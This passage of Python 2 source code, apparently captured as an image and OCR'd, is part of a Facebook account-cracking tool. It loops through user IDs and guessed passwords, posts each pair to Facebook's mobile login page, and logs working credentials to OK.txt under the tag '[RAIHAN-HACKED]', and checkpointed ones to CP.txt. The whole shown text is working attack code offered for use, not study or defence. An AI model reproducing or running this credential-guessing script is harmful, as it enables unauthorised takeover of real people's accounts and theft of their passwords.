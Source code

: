                                                     cp.write(uid + '|' + ps10 + '\n')
                                                    cp.close()
                                                    cps.append(uid + ps10)
                                                else:
                                                    data = session.post('https://mbasic.facebook.com/login.php', data = {
                                                        'email': uid,
                                                        'pass': ps11,
                                                        'login': 'submit' })
                                                    sp = data.content
                                                    if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                                        print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps11 + '\x1b[0;97m'
                                                        ok = open('OK.txt', 'a')
                                                        ok.write(uid + '|' + ps11 + '\n')
                                                        ok.close()
                                                        oks.append(uid + ps11)
                                                    elif 'checkpoint' in sp:
                                                        print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps11 + '\x1b[0;97m'
                                                        cp = open('CP.txt', 'a')
                                                        cp.write(uid + '|' + ps11 + '\n')
                                                        cp.close()
                                                        cps.append(uid + ps11)
                                                    else:
                                                        data = session.post('https://mbasic.facebook.com/login.php', data = {
                                                            'email': uid,
                                                            'pass': ps12,
                                                            'login': 'submit' })
                                                        sp = data.content
                                                        if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                                            print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps12 + '\x1b[0;97m'
                                                            ok = open('OK.txt', 'a')
                                                            ok.write(uid + '|' + ps12 + '\n')
                                                            ok.close()
                                                            oks.append(uid + ps12)
                                                        elif 'checkpoint' in sp:
                                                            print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps12 + '\x1b[0;97m'
                                                            cp = open('CP.txt', 'a')
                                                            cp.write(uid + '|' + ps12 + '\n')
                                                            cp.close()
                                                            cps.append(uid + ps12)
                                                        else:
                                                            data = session.post('https://mbasic.facebook.com/login.php', data = {
                                                                'email': uid,
                                                                'pass': ps13,
                                                                'login': 'submit' })
                                                            sp = data.content
                                                            if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                                                print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps13 + '\x1b[0;97m'
                                                                ok = open('OK.txt', 'a')
                                                                ok.write(uid + '|' + ps13 + '\n')
                                                                ok.close()
                                                                oks.append(uid + ps13)
                                                            elif 'checkpoint' in sp:
                                                                print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps13 + '\x1b[0;97m'
                                                                cp = open('CP.txt', 'a')
                                                                cp.write(uid + '|' + ps13 + '\n')
                                                                cp.close()
                                                                cps.append(uid + ps13)
                                                            else:
                                                                data = session.post('https://mbasic.facebook.com/login.php', data = {
                                                                    'email': uid,
                                                                    'pass': ps14,
                                                                    'login': 'submit' })
                                                                sp = data.content
                                                                if 'mbasic_logout_button' in sp or 'save-device' in sp: